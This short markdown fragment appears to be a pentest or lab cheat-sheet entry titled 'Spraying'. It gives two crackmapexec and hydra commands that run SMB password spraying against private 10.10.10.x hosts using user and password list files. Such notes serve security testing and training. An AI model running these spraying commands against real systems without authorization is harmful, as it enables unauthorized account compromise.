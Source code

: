 # Spraying

```
crackmapexec smb 10.10.10.172 -u userlist.txt -p passlist
hydra -L userlist.txt -P passlist.txt 10.10.10.193 smb
```

